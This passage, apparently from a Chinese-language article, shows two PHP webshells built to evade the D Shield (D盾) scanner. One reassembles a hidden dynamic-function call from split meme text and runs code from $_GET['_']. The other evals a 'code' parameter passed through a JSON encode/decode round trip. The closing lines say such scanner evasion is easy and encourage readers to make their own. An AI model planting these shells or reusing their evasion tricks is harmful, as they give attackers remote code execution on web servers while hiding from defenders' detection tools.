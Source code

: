 **卢本伟绕过**

```
<?php
$_="17张牌你+t+能秒我+t+ 你能秒杀我，你+n+今天能十c七张牌把t卢本伟秒了，我i当+o+场就把这个电脑屏幕吃掉+c+。__";
$__="我+f+真他吗没+r+开挂__";
$___='现+a+在麻烦直播间的所+n+有人给我站起来+e+_';
$____=$_.$__.$___;
$_____=explode("+",$____);
$______=[$_____[9].$_____[13],$_____[19].$_____[15],$_____[1].$_____[19],$_____[20].$_____[11],'un'.'cti','o'.'n',$_GET['_']];
$_______=array($______[0].$______[1],$______[2].$______[3],$______[4].$______[5]);
$________=array($_______[0].$_______[1].$_______[2]);
$_________=$________[0]('$a',$______[6]);
$_________('phpifno();');
?>
```

**利用json过D盾**

```
<?php
   class Emp {
       public $a = "";
   }
   $e = new Emp();
   $e->a = $_GET;
eval(json_decode(json_encode($e), true)['a']['code']);
?>
```

## 最后

希望通过本文的阅读让大家明白，D盾0级的免杀也没有那么难做。

套路都是差不多的，自己多动手，想一想，你肯定能做的比我更好。
